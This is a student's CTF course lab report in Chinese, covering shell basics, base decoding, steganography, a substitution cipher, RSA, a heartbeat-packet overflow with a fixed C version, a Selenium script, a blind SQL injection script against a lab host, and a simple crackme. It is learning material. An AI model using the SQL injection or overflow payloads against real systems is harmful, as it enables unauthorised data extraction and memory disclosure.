





# CTF101 短期课程 Lab0 Report

<center>

## 3240102120

</center>

本报告用于提交 CTF101 课程Lab 0。由于去年参加了校赛，虽然成绩较差，但是仍然希望通过本课程学习 CTF 相关知识。

---

!!! Abstract "报告中的一些小问题"
    由于我的开发起手比较野，导致我有一些规范和习俗并没有吸收。这可能导致我的报告包括但不限于以下问题之一：
    - 参数起名比较随意
    - 语法不会特别规范
    - 部分黑盒内容不了解
    - 部分指令理解出现偏差
    敬请谅解！！！如有任何需要改进的问题，烦请及时指出，我将及时修改！！！

!!! Node "一些代名"
    !!! Quote "常言道..."
        不会打歌嘛学打歌，阿哥咋摆你咋摆
    学习前辈经验，在CTF上面有我个人的一些代名，在我的报告中可能出现在举例子、实例展示等环节，以下是我常用的一些代名。这并非做记号，因此在此提前声明！
    - 2120（我的学号后四位）
    - AlabTNT
    - 41ebNTN
    - hjt
    - MoonCake__MC
    - ybmc
    - M00nC4k1

## Prerequisite

#### Challenge 1

shell命令用法比较多了吧，我比较常用的下面几个：

- `screen` : 创建新窗口，通常被我拿来挂一些后台程序，用法就是 `screen -S <name>`来创建窗口、`screen -r <name>` attach一个窗口，`screen -list` 来列出全部已打开窗口。
- `ssh` : 用来使用ssh进行远程连接或是拉取内容等等。ssh后面一般跟地址。比如 `ssh root@alabtnt.com`
- `tail` : 展示一个文件的末尾内容。
- `ps` : 查看全部进程。
- `pwd` : 展示当前所在位置的绝对路径。
- `dir` : 显示当前文件夹全部内容，也可以用 `ls` 代替。例如 `ls -a`可以展示详细文件。
- `cd` : `dir` 和 `pwd` 太水了（虽然这个也很水）：进入一个文件夹。索引父级文件夹使用 `..` 例如 `cd ../alabtntctf` 进入与当前所在位置同级的另一个文件夹。

连接到我的 Linux 机器：`wsl -d Debian`。或者连接到我的 Linux 服务器 `ssh root@******.***`

**Saint Join**:

这个玩意解决的太快以至于忘记截图（



题目描述有一个进程正在向bad.log里面持续写东西，关掉这个“磁盘爆爆器”，首先它是个进程，所以先`ps auxf`拿列表。然后扫了一下就能找到一个叫`badlog.py`的python进程，于是尝试kill一下。kill完check solution就过了。

<br>

#### Challenge 2

<s>Python我熟悉啊……Python我可太熟悉了（</s>

以下直接在程序行末进行注释，不再单另文件。

```Python3
#!/usr/bin/python3

data = input("give me your string: ")  # 显示"give me your string: "并等待输入，然后将输入的内容存入data（类型str）
print("length of string:", len(data)) # 打印"length of string: "然后是data的长度。长度指的就是data字符数

data_old = data # 把data存到old_data里
data_new = "" # 让data_new的值设为""。或者说是初始化一个str data_new
for d in data: # 在data中遍历。每个字符用d代替
    if d in 'abcdefghijklmnopqrstuvwxyz': #如果那个字符是个小写字母
        data_new += chr(ord(d) - 32) # 给data_new末尾加上它对应的大写字母。ord就是转ascii，chr从ascii转回来，-32就是从小写到大写
    elif d in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ': # 如果是大写的
        data_new += chr(ord(d) + 32) # 就加上小写的
    else: # 不是字母
        data_new += d # 保持不变

print("now your string:", data_new) # 打印"now your string: "然后输出刚刚大小写互换的字符串
```

校巴上这道题去年做过一次了


不过再做一次也可以：

```Python3
import subprocess
import fcntl
import os
import re

proc = subprocess.Popen(
    ['nc', '10.214.160.13', '11002'],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)

fd = proc.stdout.fileno()
fl = fcntl.fcntl(fd, fcntl.F_GETFL)
fcntl.fcntl(fd, fcntl.F_SETFL, fl | os.O_NONBLOCK)

buffer = ''
while True:
    try:
        data = proc.stdout.read()
        if data:
            buffer += data
            print(data, end='')
            match = re.search(r'([+-\d\s]+)=\s*$', buffer)
            if match:
                expr = match.group(1).strip()
                result = eval(expr)
                proc.stdin.write(str(result) + '\n')
                proc.stdin.flush()
                buffer = ''
    except Exception:
        pass
```

整体逻辑就是`nc`类似于一个程序，发送过来一个巨长的数学式子，只要用python进行计算（eval自动转换）即可。之后再写到stdin进行flush即可。  
（理论上用exec也能玩的来）

<div style="page-break-after: always;"></div>

## MISC

#### Challenge 1

老规矩先贴flag：`AAA{wELc0m3_t0_Ctf_5umMEr_c0UrsE_2025}`

首先观察题目，题目里面提示了要了解base相关内容，那理所应当的往base上面想。因为以=结尾，所以考虑Base64+。尝试了一遍后发现Base85解码后以==结尾。所以继续使用Base64解码。再度解码后又以===结尾，于是<s>烘焙</s>解码过程就是Base85-Base64-Base32，最终获得了这个flag。

#### Challenge 2

图片隐写，<s>这个我曾经干过，在某个发布的工具包logo图片里面藏涩图（x）</s>

flag：`AAA{gr3@t_J08!_1et'5_P1@y_m1SC_TOG3Th3R}`

hint给完的难度就低了很多。首先是LSB隐写，用在线工具Aperi'Solve自动分析，发现Red通道下可以找到图片中的前半段flag：



（“请仔细观察图片”，这人眼也太高级了）

后半段是查看文件内容，于是尝试exiftool和strings，发现`strings misc_challenge2.png`可以直接输出后半段flag。于是得到本flag。

<div style="page-break-after: always;"></div>

## Crypto

#### Challenge 1

读了一遍“跳舞的小人”，有点纳闷这byd旗子到底是怎么看出来是旗子的，有点抽象了属于是

首先遍观全图，根据以往的<s>日语经验</s>，看到有圈但是没看到两撇（bushi，结合是英文题目考虑这可能是大写或者空格。而根据头没有圈而尾有圈，考虑这个圈代表空格。然后随便给它们排下号，把图片翻译成了如下一段话：

```xiajibapaide
ABCDEFA GAFHC IDJJ HKKDLG FGKG MJGHNG JSKG FDT AB AFG HOHCPBCGP IHKGFBSNG CGHK AFG MBJDQG NAHADBC IFGKG AFG MKBRGNNDBCHJ HNNHNNDC KGGNG FDKGP IDJJ GJDTDCHAG FDT ABTBKKBI NFG IDJJ EB AB AFG IHKGFBSNG HCP OGQBTG AFG RDKNA MGKNBC AB PDNQBLGK FDN QBKMNG IDAF H NAKBCE HJDOD AFGNG MBJDQG BRRDQGKN HONBJSAGJU QHC CBA HKKGNA FGK
```

ok我在转译的时候就发现了有个单词`AFG`出现的很频，所以考虑这个单词是the。

<center>
[A=t, F=h, G=e]
</center>

```xjbpd_1
tBCDEht ethHC IDJJ HKKDLe heKe MJeHNe JSKe hDT tB the HOHCPBCeP IHKehBSNe CeHK the MBJDQe NtHtDBC IheKe the MKBReNNDBCHJ HNNHNNDC KeeNe hDKeP IDJJ eJDTDCHte hDT tBTBKKBI Nhe IDJJ EB tB the IHKehBSNe HCP OeQBTe the RDKNt MeKNBC tB PDNQBLeK hDN QBKMNe IDth H NtKBCE HJDOD theNe MBJDQe BRRDQeKN HONBJSteJU QHC CBt HKKeNt heK
```

然后看到了比较特殊的`Nhe`, `tB`, `H`，首先是这个`tB`，因为英文单词必须有元音（含半），而ta, te, ti, tu, ty, tw都不是单词，所以`B`只能代表o。而相应的`H`可能是a或i。又he结尾的三个英文单词的词只有she, the有意义，前面的`A`已经代表t了，于是`N`只能代表s。

<center>
[A=t, F=h, G=e, B=o, N=s, H=a/i]
</center>

```xjbpd_2
toCDEht ethHC IDJJ HKKDLe heKe MJeHse JSKe hDT to the HOHCPoCeP IHKehoSse CeHK the MoJDQe stHtDoC IheKe the MKoRessDoCHJ HssHssDC Keese hDKeP IDJJ eJDTDCHte hDT toToKKoI she IDJJ Eo to the IHKehoSse HCP OeQoTe the RDKst MeKsoC to PDsQoLeK hDs QoKMse IDth H stKoCE HJDOD these MoJDQe oRRDQeKs HOsoJSteJU QHC Cot HKKest heK
```

紧接着可以看到`Eo`，猜测是go。于是`E`=g。另外我在开发游戏谁是国王的时候，这个byd游戏最开始叫King Assassin，当时就开玩笑说这是king ass♂ass♂in，没想到我看到这个`HssHssDC`还真能让我想起来这个byd词，于是`HDC`就是ain。

<center>
[A=t, F=h, G=e, B=o, N=s, E=g, H=a, D=i, C=n]
</center>

```xjbpd_3
tonight ethan IiJJ aKKiLe heKe MJease JSKe hiT to the aOanPoneP IaKehoSse neaK the MoJiQe station IheKe the MKoRessionaJ assassin Keese hiKeP IiJJ eJiTinate hiT toToKKoI she IiJJ go to the IaKehoSse anP OeQoTe the RiKst MeKson to PisQoLeK his QoKMse Iith a stKong aJiOi these MoJiQe oRRiQeKs aOsoJSteJU Qan not aKKest heK
```

这个时候已经能看到前面两个词是今晚Ethan。这个纯靠语感就想到了`IiJJ`是will，所以`IJ`代表wl。

<center>
[A=t, F=h, G=e, B=o, N=s, E=g, H=a, D=i, C=n, I=w, J=l]
</center>

```xjbpd_4
tonight ethan IiJJ aKKiLe heKe MJease JSKe hiT to the aOanPoneP IaKehoSse neaK the MoJiQe station IheKe the MKoRessionaJ assassin Keese hiKeP IiJJ eJiTinate hiT toToKKoI she IiJJ go to the IaKehoSse anP OeQoTe the RiKst MeKson to PisQoLeK his QoKMse Iith a stKong aJiOi these MoJiQe oRRiQeKs aOsoJSteJU Qan not aKKest heK
```

再根据`wheKe`和`neaK`猜测`K`代表r。`arriLe`猜测`L`代表v。

<center>
[A=t, F=h, G=e, B=o, N=s, E=g, H=a, D=i, C=n, I=w, J=l, K=r, L=v]
</center>

```xjbpd_5
tonight ethan will arrive here Mlease lSre hiT to the aOanPoneP warehoSse near the MoliQe station where the MroRessional assassin reese hireP will eliTinate hiT toTorrow she will go to the warehoSse anP OeQoTe the Rirst Merson to PisQover his QorMse with a strong aliOi these MoliQe oRRiQers aOsolStelU Qan not arrest her
```

`aOsolStelU`已经写脸上了，O=b S=u U=y, `abanPoneP` 是经典老四六级词abandoned, P=d, `MroRessional` 是 professional, M=p, R=f

<center>
[A=t, F=h, G=e, B=o, N=s, E=g, H=a, D=i, C=n, I=w, J=l, K=r, L=v, O=b, S=u, U=y, P=d, M=p, R=f]
</center>

```xjbpd_6
tonight ethan will arrive here please lure hiT to the abandoned warehouse near the poliQe station where the professional assassin reese hired will eliTinate hiT toTorrow she will go to the warehouse and beQoTe the first person to disQover his Qorpse with a strong alibi these poliQe offiQers absolutely Qan not arrest her
```

那么很容易知道`poliQe`是police。`becoTe` 是become

<center>
[A=t, F=h, G=e, B=o, N=s, E=g, H=a, D=i, C=n, I=w, J=l, K=r, L=v, O=b, S=u, U=y, P=d, M=p, R=f, Q=c, T=m]
</center>

```bushixjbpd
tonight ethan will arrive here please lure him to the abandoned warehouse near the police station where the professional assassin reese hired will eliminate him tomorrow she will go to the warehouse and become the first person to discover his corpse with a strong alibi these police officers absolutely can not arrest her
```

将大小写修改正确并添加标点符号就能获得如下内容：

```zhenbushixjbpd
Tonight Ethan will arrive here. Please lure him to the abandoned warehouse near the police station, where the professional assassin Reese hired will eliminate him. Tomorrow, she will go to the warehouse and become the first person to discover his corpse with a strong alibi. These police officers absolutely can not arrest her.
```

于是翻译如下：

> 今晚伊森将抵达这里，并引诱他到警察局附近的废弃仓库，里斯雇佣的专业刺客将在那里消灭他。明天，她将前往仓库，成为第一个发现他尸体的人，并提供强有力的不在场证明。这些警察绝对无法逮捕她
>

## Challenge 2

flag: `AAA{Ace_Attorney_is_very_fun_Phoenix_Wright&Miles_Edgeworth}`


这是个非常简单的RSA题，RSA原理这里不再赘述，因为给定了 $ p $ 和 $ q $ ，所以直接上python脚本计算 $ \varphi(n)=(p-1)*(q-1) $ 和 $ d= $ 即可。

```python
p = 0x848...
q = 0xa0a...
n = p * q
varphi = (p-1) * (q-1)
e = 0x10001
c=0x39f...
d=0
def ext(a,b):
    if b==0:
        return (a,1,0)
    else:
        g,x,y=ext(b,a%b)
        return g,y,x-(a//b)*y
m=pow(c,ext(e,varphi)[1]%varphi,n)
print(int.to_bytes(m, (m.bit_length() + 7) // 8, 'big'))
```

<div style="page-break-after: always;"></div>

## Pwn

#### Task1

在program.c里，有这么几个bug：

1. Line28使用`strlen(tmp->data)`参与计算，而`strlen()`的计算方法是**直到空字符**，因此这里给入一个不以'\0'结尾的内容就可以在30行的时候overflow

2. Line44声明err但未初始化值，而在Line55为err唯一的赋值语句，这导致如果Line53的条件不满足，那么err将以未定义的值返回。

#### Task2

上面提到的两个bug可以通过输入无'\0'的data和尝试构造令`(written!=0 && written == pkt->size)`为1。为了构造无'\0'的data，使用python脚本注入。

```python
#!/usr/bin/env python3
#> This is pwn_lab0.py
import sys
import struct
pkt = struct.pack('<IIII', 0x100, 0, 0, 0) + b'\xFF' * (0x90) #0x90=size-16
sys.stdout.buffer.write(pkt[:16])
sys.stdout.buffer.write(pkt[16:])
```

然后执行`python3 pwn_lab0.py | ./program.elf`，可以得到一堆乱码输出。

#### Task3

（因为不知道是否可以提交code.zip所以把nobug_program.c贴到报告里好了）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

#define MAX_PKT_SIZE 0x1000

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

struct hbpkt *get_heart_beat()
{
    uint8_t buffer[MAX_PKT_SIZE] = {0};

    if (fread(buffer, sizeof(struct hbpkt), 1, stdin) != 1)
        return NULL;

    struct hbpkt *tmp = (struct hbpkt *)buffer;

    if (tmp->size < sizeof(struct hbpkt) || tmp->size > MAX_PKT_SIZE)
        return NULL;

    size_t data_len = tmp->size - sizeof(struct hbpkt);
    if (fread(tmp->data, 1, data_len, stdin) != data_len)
        return NULL;

    struct hbpkt *res = malloc(tmp->size);
    if (!res)
        return NULL;

    memcpy(res, buffer, tmp->size);

    res->index += 1;

    return res;
}

int reply_heart_beat(struct hbpkt *pkt)
{
    int err = 0; // 这里给定初始化
    int written = 0;

    if (pkt->size)
    {
        written = fwrite(pkt, 1, pkt->size, stdout);
        fflush(stdout);
    }

    if (written == 0 || (uint32_t)written != pkt->size)
    {
        err = -1;
    }

    return err;
}

int main() // 无修改
{
    int err;
    while (true)
    {
        struct hbpkt *p = get_heart_beat();
        if (!p)
            continue;

        err = reply_heart_beat(p);
        free(p);
    }
}

```

<div style="page-break-after: always;"></div>

## Web

#### Challenge 1

flag: `flag{56297ad00e70449a16700a77bf24b071}`

使用开发者工具（因为快捷键被禁了所以要在工具栏里手动打开），检查发现按钮onfocus有hidden属性，其onclick执行函数getflag()。尝试在控制台执行这个函数，alert提示1/1337，然后再执行提示token错误。再尝试刷新重新执行getflag()，发现alert提示2/1337，说明实际操作是执行getflag()、刷新、再getflag()。重复1337次（应该）能拿到flag。所以使用python的selenium库进行模拟操作执行。这里需要GoogleDriver，操作方法就不赘述了。

```python
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options
from selenium.common.exceptions import NoAlertPresentException
import time
chrome_options = Options()
chrome_options.add_argument("--disable-infobars")
chrome_options.add_argument("--disable-notifications")
chrome_options.add_argument("--start-maximized")
service = Service()
driver = webdriver.Chrome(service=service, options=chrome_options)
url = "http://pumpk1n.com/lab0.php"
try:
    for i in range(1338):
        driver.get(url)
        driver.execute_script("getflag()")
        time.sleep(0.2)
        try:
            alert = driver.switch_to.alert
            print(f"{alert.text}")
            alert.accept()
        except NoAlertPresentException:
            print(f"No alert")
finally:
    pass
```

执行到最后console就会提示flag了。

#### Challenge 2

flag: flag{45541872-d892-4d7f-a2b1-da68f7597b1f}

首先测试发现输入1和2会返回两句不同的话，输入3以上就爆了，又说在table=flag和column=flag的地方，所以尝试注入select flag from flag，但是会被检测注入，尝试用/\*\*/代替空格也不奏效，然后发现用2|1这样的语句会返回结果，所以考虑用if语句和纯函数注入，方法是检测输入的值和表值的ascii是不是相等，相等就输出1，不然就输出2，这样输出1就代表正确，输出2就代表不正确。为了减少遍历次数，使用二分搜索。

```python
from requests import post
result = ""
for x in range(1, 50):
    low, high = 32, 127
    while low < high:
        mid = (low + high) // 2
        response = post('http://2c0616c9-8209-4027-aa6a-724ee8f9d39e.node5.buuoj.cn:81/index.php',data={"id": f"if(ascii(substr((select(flag)from(flag)),{x},1))>{mid},1,2)"}).text
        if 'glzjin' in response:
            low = mid + 1
        else:
            high = mid
    result += chr(low)
    print(x)
print(result)

```

<div style="page-break-after: always;"></div>

## Reverse

这个rev好简单，要是今年校赛题都是这样的就更好了（x）


下载crackme并丢到IDA中可以找到如下内容：



顺藤摸到verify和table：



很容易发现是对buffer按位乘16再和table比较。所以只需要把table全除16就可以得到结果：



于是得到flag：`AAA{HiReversq}`

<center>

\>\>3240102120<<

</center>